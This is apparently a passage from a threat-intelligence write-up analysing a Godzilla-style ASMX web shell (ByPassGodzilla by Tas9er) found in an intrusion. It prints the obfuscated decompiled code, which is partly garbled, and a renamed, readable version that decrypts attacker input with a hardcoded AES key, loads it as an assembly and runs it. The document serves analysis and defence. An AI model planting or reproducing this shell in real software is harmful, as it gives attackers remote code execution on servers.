 ```cs
        Context.["payload"] = (System..Assembly) typeof (System..Assembly).GetMethod("Load", new System.Type[] {
          typeof (byte[])
        }).Invoke(null, new object[] {
          gov8BJZI
        });;
      } else {
        object govoT9N8SlgiAoBum8 = ((System..Assembly) Context.["payload"]).CreateInstance("LY");
        System.IO.MemoryStream govEUs8S4QpyCUGZh8 = new System.IO.MemoryStream();
        govoT9N8SlgiAoBum8.(Context);
        govoT9N8SlgiAoBum8.(govEUs8S4QpyCUGZh8);
        govoT9N8SlgiAoBum8.(gov8BJZI);
        govoT9N8SlgiAoBum8.ToString();
        byte[] govT4 = govEUs8S4QpyCUGZh8.ToArray();
        govDM3X1CGnw7WMF.(govkyA6AxNqptARra8.Substring(0, 16));
        govDM3X1CGnw7WMF.(System..ToBase64String(new System.Security.Cryptography.RijndaelManaged().CreateEncryptor(System.Text..Default.(govFvK), System.Text..Default.(govFvK)).TransformFinalBlock(govT4, 0, govT4.Length)));
        govDM3X1CGnw7WMF.(govkyA6AxNqptARra8.Substring(16));
      }
    } catch (System.Exception) {}
    return govDM3X1CGnw7WMF.ToString();
  }
}
```

We can see reference to the webshell [`ByPassGodzilla`](https://github.com/Tas9er/ByPassGodzilla), developed by `Tas9er`. This adversary has heavily leveraged `Tas9er` tools during intrusions. It is fairly simple to re-name some of these variables to make this code understandable:

```cs
//[REDACTED]
public class GovService : WebService
{
    [WebMethod(EnableSession = true)]
    public string Tas9er(string inputParam)
    {
        StringBuilder responseBuilder = new StringBuilder();
        try
        {
            string paramName = "Tas9er";
            string aesKeyIv = "93a1d11603dcec67";
            string md5Hex = BitConverter.ToString(new MD5CryptoServiceProvider().ComputeHash(Encoding.Default.GetBytes(paramName + aesKeyIv))).Replace("-", "");
            byte[] decryptedInput = Convert.FromBase64String(HttpUtility.UrlDecode(inputParam));
            decryptedInput = new RijndaelManaged().CreateDecryptor(Encoding.Default.GetBytes(aesKeyIv), Encoding.Default.GetBytes(aesKeyIv)).TransformFinalBlock(decryptedInput, 0, decryptedInput.Length);
            if (Context.Session["payload"] == null)
            {
                Context.Session["payload"] = (Assembly)typeof(Assembly).GetMethod("Load", new Type[] { typeof(byte[]) }).Invoke(null, new object[] { decryptedInput });
            }
            else
            {
                object lyInstance = ((Assembly)Context.Session["payload"]).CreateInstance("LY");
                MemoryStream memoryStream = new MemoryStream();
                lyInstance.Equals(Context);
                lyInstance.Equals(memoryStream);
                lyInstance.Equals(decryptedInput);
                lyInstance.ToString();
                byte[] resultBytes = memoryStream.ToArray();
                responseBuilder.Append(md5Hex.Substring(0, 16));
```